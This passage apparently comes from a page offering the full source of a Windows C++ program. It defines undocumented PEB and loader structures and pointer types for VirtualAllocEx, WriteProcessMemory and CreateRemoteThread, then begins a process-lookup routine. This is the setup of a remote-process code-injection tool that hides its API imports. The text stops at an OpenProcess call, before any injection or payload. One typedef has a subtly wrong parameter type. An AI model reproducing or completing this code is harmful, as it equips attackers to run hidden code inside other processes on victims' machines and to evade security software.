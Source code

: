 ## Full Code
```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>
#include <iostream>
#include <Psapi.h>


typedef struct _UNICODE_STRING {USHORT Length;USHORT MaximumLength;PWSTR  Buffer;} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID      DllBase;
    PVOID      EntryPoint;
    ULONG      SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG      Flags;
    USHORT     LoadCount;
    USHORT     TlsIndex;
    LIST_ENTRY HashLinks;
    PVOID      SectionPointer;
    ULONG      CheckSum;
    ULONG      TimeDateStamp;
    PVOID      LoadedImports;
    PVOID      EntryPointActivationContext;
    PVOID      PatchInformation;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

typedef struct _PEB_LDR_DATA {ULONG Length; BOOLEAN Initialized; HANDLE SsHandle;LIST_ENTRY InLoadOrderModuleList; LIST_ENTRY InMemoryOrderModuleList;LIST_ENTRY InInitializationOrderModuleList;} PEB_LDR_DATA, * PPEB_LDR_DATA;
typedef struct _PEB { BOOLEAN InheritedAddressSpace; BOOLEAN ReadImageFileExecOptions;  BOOLEAN BeingDebugged; BOOLEAN SpareBool; HANDLE Mutant; PVOID ImageBaseAddress; PPEB_LDR_DATA Ldr;} PEB, * PPEB;
typedef FARPROC(WINAPI* GETPROCADDRESS)(HMODULE, LPCSTR);
typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR);
typedef LPVOID (WINAPI* VAExType)( HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef BOOL(WINAPI* WPMType)( HANDLE  hProcess,LPVOID  lpBaseAddress, LPCVOID lpBuffer,SIZE_T  nSize, SIZE_T* lpNumberOfBytesWritten );
typedef HANDLE(WINAPI* CRTType)(HANDLE hProcess, LPSECURITY_ATTRIBUTES  lpThreadAttributes,SIZE_T dwStackSize,LPTHREAD_START_ROUTINE lpStartAddress,LPVOID lpParameter,DWORD dwCreationFlags, DWORD lpThreadId);

DWORD GetProcessIdByName(const std::wstring& processName) {
    DWORD processIds[1024], bytesReturned;
    if (!EnumProcesses(processIds, sizeof(processIds), &bytesReturned)) {
        std::cerr << "Failed to enumerate processes. Error: " << GetLastError() << std::endl;
        return 0;
    }

    DWORD processCount = bytesReturned / sizeof(DWORD);

    for (DWORD i = 0; i < processCount; ++i) {
        if (processIds[i] == 0) continue;

        HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, processIds[i]);
```